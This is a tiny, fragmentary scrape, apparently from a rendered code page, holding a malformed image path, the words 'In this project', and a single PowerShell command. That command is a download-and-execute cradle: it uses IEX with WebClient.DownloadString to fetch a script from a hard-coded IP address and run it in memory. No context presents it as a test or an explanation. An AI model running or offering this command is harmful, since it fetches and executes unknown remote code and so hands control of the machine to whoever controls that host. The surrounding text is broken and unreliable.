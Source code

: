 In this project

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://68.183.21.171:443/mypowershell.ps1')"
